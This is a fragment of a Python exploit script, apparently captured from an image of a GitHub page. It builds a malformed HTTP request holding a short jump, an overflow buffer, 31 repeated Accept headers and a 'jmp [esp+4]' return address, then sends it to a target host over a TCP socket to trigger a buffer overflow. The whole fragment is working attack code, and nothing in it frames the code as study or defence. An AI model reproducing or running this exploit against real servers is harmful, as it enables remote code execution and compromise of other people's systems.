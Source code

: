     evul = "\xeb\x0c" + " / HTTP/1.1 " + buf + "\r\n" + "Accept: text/html\r\n"*31
    evul += "\xff\x64\x24\x04" + "\r\n\r\n"  # jmp [esp+4]

    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  # Declare a TCP socket
    client.connect((host,port))                               #Connect to TCP socket
    client.sendall(evul.encode('latin-1'))                                  # Send buffer overflow
    client.close()

    print("\nDone!")
